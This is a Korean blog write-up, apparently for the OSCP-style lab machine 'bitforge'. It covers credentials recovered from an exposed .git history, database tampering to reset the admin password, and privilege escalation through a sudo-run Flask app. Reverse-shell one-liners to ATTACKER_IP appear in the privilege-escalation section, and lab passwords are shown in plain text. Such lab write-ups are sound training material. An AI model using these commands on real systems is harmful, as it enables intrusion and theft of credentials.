







---
layout: post
title:  "[PG][Linux] bitforge"
date:   2026-11-08 12:05:00 +09:00
featured: /assets/images/oscp-pg/linux/bitforge/image.png
categories: PG Linux
---## 정보 수집
nmap으로 포트 스캔을 수행함.
```
└─$ nmap -p$ports -sC -sV -Pn 192.168.245.186
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-25 03:05 EDT
Nmap scan report for 192.168.245.186
Host is up (0.091s latency).

PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:5a:a9:66:65:3e:d0:b8:9d:a5:16:8c:e8:16:37:e2 (ECDSA)
|_  256 9b:2d:1d:f8:13:74:ce:96:82:4e:19:35:f9:7e:1b:68 (ED25519)
80/tcp   open   http       Apache httpd
|_http-server-header: Apache
|_http-title: Did not follow redirect to http://bitforge.lab/
| http-git: 
|   192.168.245.186:80/.git/
|     Git repository found!
|     .git/config matched patterns 'user'
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: created .env to store the database configuration 
3306/tcp open   mysql      MySQL 8.0.40-0ubuntu0.24.04.1
|_ssl-date: TLS randomness does not represent time
| mysql-info: 
|   Protocol: 10
|   Version: 8.0.40-0ubuntu0.24.04.1
|   Thread ID: 21
|   Capabilities flags: 65535
|   Some Capabilities: Support41Auth, IgnoreSpaceBeforeParenthesis, FoundRows, LongPassword, SupportsCompression, SupportsTransactions, Speaks41ProtocolOld, IgnoreSigpipes, ODBCClient, Speaks41ProtocolNew, SwitchToSSLAfterHandshake, ConnectWithDatabase, SupportsLoadDataLocal, InteractiveClient, LongColumnFlag, DontAllowDatabaseTableColumn, SupportsMultipleResults, SupportsMultipleStatments, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: \x12t\\x15f[\%\x0Etsf\x1A\x1E,)W.X\x15
|_  Auth Plugin Name: caching_sha2_password
| ssl-cert: Subject: commonName=MySQL_Server_8.0.40_Auto_Generated_Server_Certificate
| Not valid before: 2025-01-15T14:38:11
|_Not valid after:  2035-01-13T14:38:11
9000/tcp closed cslistener
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.50 seconds
```

80포트는 hosts에 도메인을 등록해야 접근이 가능했음.
```
echo "192.168.245.186  bitforge.lab" >> /etc/hosts
```

```
echo "192.168.245.186  plan.bitforge.lab" >> /etc/hosts
```


simple online planning 해당 버전에서 RCE PoC 존재 확인.
하지만 해당 코드를 사용하려면 계정 정보가 필요했음.
```
└─$ searchsploit simple online planning                    
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                             |  Path
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
SOPlanning 1.52.01 (Simple Online Planning Tool) - Remote Code Execution (RCE) (Authenticated)                             | php/webapps/52082.py
--------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```


```
└─$ feroxbuster -u "http://bitforge.lab/" -w /usr/share/seclists/Discovery/Web-Content/common.txt --depth 2 --filter-status 404
                                                                                                                                                             
 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.13.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://bitforge.lab/
 🚩  In-Scope Url          │ bitforge.lab
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/common.txt
 💢  Status Code Filters   │ [404]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.13.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🔎  Extract Links         │ true
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 2
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
404      GET        7l       23w      196c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
403      GET        7l       20w      199c Auto-filtering found 404-like response and created new filter; toggle off with --dont-filter
200      GET        0l        0w        0c http://bitforge.lab/.env
301      GET        7l       20w      233c http://bitforge.lab/.git => http://bitforge.lab/.git/
200      GET        6l       73w     3248c http://bitforge.lab/static/css/owl.carousel.min.css
200      GET      431l     1267w    10757c http://bitforge.lab/static/css/responsive.css
200      GET     1055l     1815w    18702c http://bitforge.lab/static/css/style.css
200      GET        1l        2w       21c http://bitforge.lab/.git/HEAD
200      GET     3561l    20078w  1663058c http://bitforge.lab/static/images/img-1.png
200      GET     2612l    15561w  1315752c http://bitforge.lab/static/images/img-2.png
200      GET     4183l    24291w  1949434c http://bitforge.lab/static/images/img-4.png
200      GET        8l       21w      150c http://bitforge.lab/.git/config
200      GET        2l       11w      404c http://bitforge.lab/.git/index
200      GET      218l      650w     8904c http://bitforge.lab/
200      GET        4l       61w      770c http://bitforge.lab/.git/logs/HEAD
200      GET       16l       64w     1058c http://bitforge.lab/.git/logs/
200      GET      218l      650w     8904c http://bitforge.lab/index.php
301      GET        7l       20w      239c http://bitforge.lab/.git/hooks => http://bitforge.lab/.git/hooks/
301      GET        7l       20w      238c http://bitforge.lab/.git/info => http://bitforge.lab/.git/info/
301      GET        7l       20w      238c http://bitforge.lab/.git/logs => http://bitforge.lab/.git/logs/
301      GET        7l       20w      235c http://bitforge.lab/static => http://bitforge.lab/static/
301      GET        7l       20w      241c http://bitforge.lab/.git/objects => http://bitforge.lab/.git/objects/
[####################] - 20s     9550/9550    0s      found:20      errors:47     
[####################] - 17s     4751/4751    278/s   http://bitforge.lab/ 
[####################] - 18s     4751/4751    262/s   http://bitforge.lab/.git/ 
[####################] - 0s      4751/4751    25681/s http://bitforge.lab/static/ => Directory listing (add --scan-dir-listings to scan)
```

디렉토리 탐색을 통해 발견된 .git 디렉토리를 dump뜬 다음에 log 확인.
```
└─$ git-dumper http://bitforge.lab/.git/ website

└─$ git log                                        
commit 1ce700a508aec3d5e4d4aa1b128a662f2c85f5ad (HEAD -> main)
Author: McSam Ardayfio <mcsam@bitforge.lab>
Date:   Mon Dec 16 16:44:48 2024 +0000

    created .env to store the database configuration

commit eaf6c81951775e4202e40762b3300cc936cf4df1
Author: McSam Ardayfio <mcsam@bitforge.lab>
Date:   Mon Dec 16 16:44:05 2024 +0000

    removing db-config due to hard coded credentials

commit 18833b811e967ab8bec631344a6809aa4af59480
Author: McSam Ardayfio <mcsam@bitforge.lab>
Date:   Mon Dec 16 16:43:08 2024 +0000

    added the database configuration

commit f4f6de69896baa2ecbb1084e604be81343833bfa
Author: McSam Ardayfio <mcsam@bitforge.lab>
Date:   Mon Dec 16 16:41:54 2024 +0000

    setting up login and index page for the BitForge website
```

중요 정보 하드코딩때문에 지운 흔적이 있는 로그를 확인 해보면, 하드 코딩된 db 계정정보를 확인이 가능함.
```
└─$ git show eaf6c81951775e4202e40762b3300cc936cf4df1
commit eaf6c81951775e4202e40762b3300cc936cf4df1
Author: McSam Ardayfio <mcsam@bitforge.lab>
Date:   Mon Dec 16 16:44:05 2024 +0000

    removing db-config due to hard coded credentials

diff --git a/db-config.php b/db-config.php
deleted file mode 100644
index c1d2b96..0000000
--- a/db-config.php
+++ /dev/null
@@ -1,19 +0,0 @@
-<?php
-// Database configuration
-$dbHost = 'localhost'; // Change if your database is hosted elsewhere
-$dbName = 'bitforge_customer_db';
-$username = 'BitForgeAdmin';
-$password = 'B1tForG3S0ftw4r3S0lutions';
-
-try {
-    $dsn = "mysql:host=$dbHost;dbname=$dbName;charset=utf8mb4";
-    $pdo = new PDO($dsn, $username, $password);
-
-    $pdo->setAttribute(PDO::ATTR_ERRMODE, PDO::ERRMODE_EXCEPTION);
-
-    echo "Connected successfully to the database!";
-} catch (PDOException $e) {
-    echo "Connection failed: " . $e->getMessage();
-}
-?>
-
```

## 초기 침투
위에서 찾은 계정으로 mysql 로그인이 가능했으며, ssl 오류가 뜨기 때문에 --skip-ssl 옵션으로
```
└─$ mysql -h 192.168.245.186 -u BitForgeAdmin -p'B1tForG3S0ftw4r3S0lutions' --skip-ssl
Welcome to the MariaDB monitor.  Commands end with ; or \g.
Your MySQL connection id is 69
Server version: 8.0.40-0ubuntu0.24.04.1 (Ubuntu)

Copyright (c) 2000, 2018, Oracle, MariaDB Corporation Ab and others.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

MySQL [(none)]>
```

soplanning의 table 리스트 중 planning_user 확인.
```
MySQL [(none)]> show databases;
+----------------------+
| Database             |
+----------------------+
| bitforge_customer_db |
| information_schema   |
| performance_schema   |
| soplanning           |
+----------------------+
4 rows in set (0.092 sec)

MySQL [soplanning]> show tables;
+----------------------------+
| Tables_in_soplanning       |
+----------------------------+
| planning_audit             |
| planning_config            |
| planning_ferie             |
| planning_groupe            |
| planning_lieu              |
| planning_periode           |
| planning_projet            |
| planning_projet_user_tarif |
| planning_ressource         |
| planning_right_on_user     |
| planning_status            |
| planning_user              |
| planning_user_groupe       |
+----------------------------+
13 rows in set (0.090 sec)
```

admin 계정의 비밀번호 확인(77ba9273d4bcfa9387ae8652377f4c189e5a47ee)
```
MySQL [soplanning]> select * from planning_user;
+-----------+----------------+---------------+-------+------------------------------------------+-------+------------------+---------+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+---------------+---------+-----------+--------+--------+-------------+--------------------+-------------+-------------+------------+---------------------+------------+----------+----------------------+
| user_id   | user_groupe_id | nom           | login | password                                 | email | visible_planning | couleur | droits                                                                                                                                                                                                                                          | cle                              | notifications | adresse | telephone | mobile | metier | commentaire | date_dernier_login | preferences | login_actif | google_2fa | date_creation       | date_modif | tutoriel | tarif_horaire_defaut |
+-----------+----------------+---------------+-------+------------------------------------------+-------+------------------+---------+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+---------------+---------+-----------+--------+--------+-------------+--------------------+-------------+-------------+------------+---------------------+------------+----------+----------------------+
| ADM       |           NULL | admin         | admin | 77ba9273d4bcfa9387ae8652377f4c189e5a47ee | NULL  | non              | 000000  | ["users_manage_all", "projects_manage_all", "projectgroups_manage_all", "tasks_modify_all", "tasks_view_all_projects", "lieux_all", "ressources_all", "parameters_all", "stats_users", "stats_projects", "audit_restore", "stats_roi_projects"] | dbee8fd60fd4244695084bd84a996882 | oui           | NULL    | NULL      | NULL   | NULL   | NULL        | NULL               | NULL        | oui         | setup      | 2025-01-16 14:21:15 | NULL       | NULL     |                 NULL |
| publicspl |           NULL | Guest         | NULL  | NULL                                     | NULL  | non              | 000000  | NULL                                                                                                                                                                                                                                            | 181ba036234dcccd78a2c7f540928a0f | non           | NULL    | NULL      | NULL   | NULL   | NULL        | NULL               | NULL        | oui         | setup      | 2025-01-16 14:21:15 | NULL       | NULL     |                 NULL |
| user1     |              1 | Test people 1 | NULL  | NULL                                     | NULL  | oui              | ffeb3b  | ["","","","tasks_readonly","tasks_view_all_projects","tasks_view_all_users","","","","","",""]                                                                                                                                                  | bdcf6ee6918de4347aa34b7b533119d9 | oui           | NULL    | NULL      | NULL   | NULL   | NULL        | NULL               | NULL        | oui         | setup      | 2025-01-16 14:21:15 | NULL       | NULL     |                 NULL |
| user2     |              1 | Test people 2 | NULL  | NULL                                     | NULL  | oui              | 4dabf5  | ["","","","tasks_readonly","tasks_view_all_projects","tasks_view_all_users","","","","","",""]                                                                                                                                                  | cb284acc53164275d8cbb61fb090daf8 | oui           | NULL    | NULL      | NULL   | NULL   | NULL        | NULL               | NULL        | oui         | setup      | 2025-01-16 14:21:15 | NULL       | NULL     |                 NULL |
| user3     |              2 | Test people 3 | NULL  | NULL                                     | NULL  | oui              | 1fcb27  | ["","","","tasks_readonly","tasks_view_all_projects","tasks_view_all_users","","","","","",""]                                                                                                                                                  | 2eb523102046905d137e264e1eda0a43 | oui           | NULL    | NULL      | NULL   | NULL   | NULL        | NULL               | NULL        | oui         | setup      | 2025-01-16 14:21:15 | NULL       | NULL     |                 NULL |
+-----------+----------------+---------------+-------+------------------------------------------+-------+------------------+---------+-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+----------------------------------+---------------+---------+-----------+--------+--------+-------------+--------------------+-------------+-------------+------------+---------------------+------------+----------+----------------------+
5 rows in set (0.090 sec)
```

jonh 또는 hashcat으로 복호화가 되지 않아서 


```
MySQL [soplanning]> UPDATE planning_user SET password='df5b909019c9b1659e86e0d6bf8da81d6fa3499e' WHERE user_id='ADM';
Query OK, 1 row affected (0.096 sec)
Rows matched: 1  Changed: 1  Warnings: 0
```



## 궈한 상승
획득한 쉘은 불안전하여 완전한 쉘을 얻기 위해 nc mkfifo로 리버스쉘을 보냄.
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc ATTACKER_IP 3306 >/tmp/f
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

linpeas.sh로 매시간 17분마다 root권한으로 실행되는 예약작업이 있었음.


pspy64에서 나오는 출력에 Jack의 비밀번호를 확보할 수 있었음.(jack:j4cKF0rg3@445)
```
./pspy64s
```


ssh로 jack 계정으로 접속 성공.



sudo로 /usr/bin/flask_password_changer를 실행 시킬수 있었음
```
jack@BitForge:~$ sudo -l
Matching Defaults entries for jack on bitforge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty,
    !env_reset

User jack may run the following commands on bitforge:
    (root) NOPASSWD: /usr/bin/flask_password_changer
jack@BitForge:~$ file /usr/bin/flask_password_changer
/usr/bin/flask_password_changer: Bourne-Again shell script, ASCII text executable
```

flask_password_changer 파일 확인 시 /opt/password_change_app 경로에서 flask를 실행하고 있음.
```
jack@BitForge:~$ cat /usr/bin/flask_password_changer
#!/bin/bash
cd /opt/password_change_app 
/usr/local/bin/flask run --host 127.0.0.1 --port 9000 --no-debug
```

app.py는 flask 실행 시 index.html으로 랜더링하는 코드임.
```
jack@BitForge:~$ cd /opt/password_change_app
jack@BitForge:/opt/password_change_app$ ls
app.py  templates
jack@BitForge:/opt/password_change_app$ cat app.py
from flask import Flask, render_template

app = Flask(__name__)

@app.route("/")
def home():
    return render_template("index.html")
```

기존 app.py를 백업 한 뒤, 리버스 쉘로 변조 후 sudo 권한으로 flask_password_changer 실행.
```
jack@BitForge:/opt/password_change_app$ mv app.py app.py.old
jack@BitForge:/opt/password_change_app$ vi app.py
jack@BitForge:/opt/password_change_app$ cat app.py
import os

os.system("busybox nc ATTACKER_IP 3306 -e bash")
jack@BitForge:/opt/password_change_app$ sudo /usr/bin/flask_password_changer
```

netcat에서 root권한의 리버스 쉘이 확인됨.

